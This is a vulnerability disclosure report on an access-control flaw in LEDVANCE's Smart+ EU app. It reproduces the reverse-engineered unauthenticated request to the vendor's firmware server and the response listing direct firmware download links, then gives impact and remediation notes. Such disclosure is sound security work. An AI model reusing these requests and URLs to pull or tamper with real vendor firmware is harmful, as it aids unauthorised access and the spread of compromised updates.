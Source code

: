 # Vulnerability Report - com.ledvance.smartplus.eu- Incorrect Access Control

**Product:** `com.ledvance.smartplus.eu` 

**Vendor:** [LEDVANCE](https://www.ledvance.com/)

**Version:** 2.1.10

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.ledvance.smartplus.eu` , developed by LEDVANCE, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `checkFirmwareUpdate, checkFirmwareUpdateForAmazon, checkFirmwareUpdateForAppleHomeKit, checkFirmwareUpdateForGoogle` methods in the `Api2Service` class and the `FIRMWARE_URL` String value in class `Env.Companion` provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003003328039](https://s2.loli.net/2024/10/03/u6nBlHpi7yX2ODk.png)

   ![image-20241003003308862](https://s2.loli.net/2024/10/03/TtILim8JKBk9rDN.png)

   ![image-20241003003141781](https://s2.loli.net/2024/10/03/nd3iCeJXgrcpquW.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh.txt HTTP/1.1
   Host: apps.ledvanceus.com
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Content-Type: text/plain
   Last-Modified: Mon, 08 Jan 2024 01:26:08 GMT
   Accept-Ranges: bytes
   ETag: "94c9e5a7d141da1:0"
   Server: Microsoft-IIS/7.5
   X-Powered-By: ASP.NET
   Date: Wed, 02 Oct 2024 16:35:17 GMT
   Content-Length: 14386
   
   {
   "SYLVANIA A19 C": {"fwFile": "https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh/A19C-M_2.0.05.bin","version": "2.0.5","deviceTypeId": "sylvania-a19-c"},
   "A19 C": {"fwFile": "https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh/A19C-M_2.0.05.bin","version": "2.0.5","deviceTypeId": "sylvania-a19-c"},
   
   "SYLVANIA A19 C1": {"fwFile": "https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh/A19C1-M_2.0.06.bin","version": "2.0.6","deviceTypeId": "sylvania-a19-c1"},
   "A19 C1": {"fwFile": "https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh/A19C1-M_2.0.06.bin","version": "2.0.6","deviceTypeId": "sylvania-a19-c1"},
   
   "SYLVANIA A19 F": {"fwFile": "https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh/A19F-M_2.0.05.bin","version": "2.0.5","deviceTypeId": "sylvania-a19-f"},
   "A19 F": {"fwFile": "https://apps.ledvanceus.com/firmware/ble/pd/eu/mesh/A19F-M_2.0.05.bin","version": "2.0.5","deviceTypeId": "sylvania-a19-f"},
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003003721696](https://s2.loli.net/2024/10/03/u7cS6Lhgj1UriI9.png)

   Downloaded total 182 firmware.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.